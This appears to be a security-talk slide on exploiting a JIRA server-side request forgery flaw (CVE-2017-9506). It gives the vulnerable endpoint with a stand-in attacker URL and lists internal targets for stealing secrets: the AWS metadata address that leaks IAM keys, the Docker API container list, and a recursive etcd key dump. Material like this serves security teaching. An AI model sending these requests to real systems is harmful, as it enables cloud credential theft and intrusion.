

# In the Wild - Exploiting JIRA (CVE-2017–9506)
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.attacker.com
AWS - IAM role will leak AWS key
http://169.254.169.254/latest/meta-data/

Docker - List Containers
http://127.0.0.1:2375/v1.24/containers/json

Kubernetes ETCD - Can contain API keys and internal ip and ports
http://127.0.0.1:2379/v2/keys/?recursive=true